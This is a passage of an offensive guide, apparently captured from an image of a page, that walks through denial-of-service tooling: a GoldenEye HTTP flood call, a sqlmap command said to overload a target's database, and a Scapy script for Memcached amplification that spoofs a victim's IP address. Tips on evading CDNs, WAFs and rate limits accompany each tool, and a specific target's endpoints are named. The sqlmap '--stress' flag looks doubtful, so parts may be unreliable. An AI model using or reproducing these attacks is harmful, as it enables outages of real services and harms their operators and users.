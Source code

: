     target = "http://target_server"
    goldeneye_flood(target)
    ```

  - **Efficiency Tips** :
  - Target dynamic endpoints (e.g., `/search` or `/news` from ZNU).
  - Randomize headers and query parameters to evade CDNs.
  - Scale threads based on target’s capacity.
  - **Defense Bypass** :
  - Cache-busting URLs hit the origin server, overloading it.
  - Randomized headers evade WAF fingerprinting.

  ### 3.7 sqlmap for Pseudo-DDoS

  **Purpose** : Stress database with heavy SQL queries, simulating application-layer DDoS.

  - **Protocols** : HTTP/HTTPS (Layer 7).
  - **Strengths** : Targets database bottlenecks, stealthy as it mimics legitimate queries.
  - **Usage** :
  - Command:

    ```bash
    sqlmap -u "http://<target_domain>/news?id=123" --stress --threads=10
    ```

    - `--stress`: Sends heavy queries to overload database.
    - `--threads=10`: Max threads for parallel requests.

  - **Efficiency Tips** :
  - Identify database-backed endpoints (e.g., search or news pages).
  - Use `--delay` to slow requests and evade rate-limiting.
  - Combine with HTTP floods for dual impact.
  - **Defense Bypass** :
  - Legitimate-looking queries bypass WAFs.
  - Heavy queries exhaust database connections, not just web server.

  ### 3.8 Custom Scripts with Scapy

  **Purpose** : Craft amplification or protocol-specific attacks (e.g., Memcached, QUIC).

  - **Protocols** : UDP, TCP, QUIC.
  - **Strengths** : Fully customizable, supports emerging protocols.
  - **Usage** (Memcached Amplification):

    ```python
    from scapy.all import *

    def memcached_amplification(target_ip, memcached_server, count=1000):
        packet = IP(dst=memcached_server, src=target_ip)/UDP(dport=11211)/Raw(load="\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n")
        send(packet, count=count, verbose=0)
        print(f"Sent {count} packets to {memcached_server}, spoofing {target_ip}")

    target_ip = "victim_ip"  # Replace with target
    memcached_server = "memcached_server_ip"  # Find via Shodan
    memcached_amplification(target_ip, memcached_server)
    ```
